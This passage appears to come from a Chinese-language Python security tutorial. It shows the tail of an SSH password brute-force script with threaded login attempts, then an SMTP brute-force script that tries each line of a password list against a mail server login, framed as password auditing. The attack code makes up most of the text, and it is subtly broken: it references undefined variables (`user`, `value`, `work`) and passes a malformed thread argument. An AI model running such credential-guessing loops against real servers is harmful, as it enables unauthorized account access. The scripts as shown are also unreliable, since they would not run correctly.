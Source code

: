 ```py
            print error 
            pass 
        except paramiko.SSHException, error: 
            print error 
            print "Most probably this is caused by a missing host key" 
            pass 
        except Exception, error: 
            print "Unknown error: "+error 
            pass     
        ssh.close() 

    except Exception,error : 
        print error 

letters_list = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQSTUVWXYZ1234567890!@#$&()'  

```

在这里，我们使用线程来使模糊测试并行运行，以提高速度：

```py
for i in bruteforce_list(letters_list, PASS_SIZE): 
    t = threading.Thread(target=attempt, args=(i)) 
    t.start() 
    time.sleep(0.3) 

sys.exit(0) 

```

# SMTP 暴力破解

**简单邮件传输协议**（**SMTP**）是网络上的电子邮件传输标准。电子邮件服务器和其他邮件传输代理使用 SMTP 来发送和接收电子邮件。电子邮件客户端应用程序通常仅使用 SMTP 发送电子邮件。要对 SMTP 进行暴力破解密码审计，我们可以使用`smptlib`模块，它可以帮助我们连接到 SMTP。

像往常一样，导入所需的模块：

```py
import sys, smtplib, socket 
from smtplib import SMTP 

```

设置`IP`和`USER`。您也可以将这些值作为输入参数获取：

```py
IP = "127.0.0.1" 
USER = "admin"  

```

检查 SMTP 中的每个密码列表中的密码：

```py
attackNumber = 1 
with open('passwordlist.txt') as f: 
    for PASSWORD in f: 
         try: 
               print "-"*12 
               print "User:",USER,"Password:",PASSWORD 
               smtp = smtplib.SMTP(IP) 
               smtp.login(user, value) 
               print "\t\nLogin successful:",user, value 
               smtp.quit() 
               work.join() 
               sys.exit(2) 
         except(socket.gaierror, socket.error, socket.herror,
```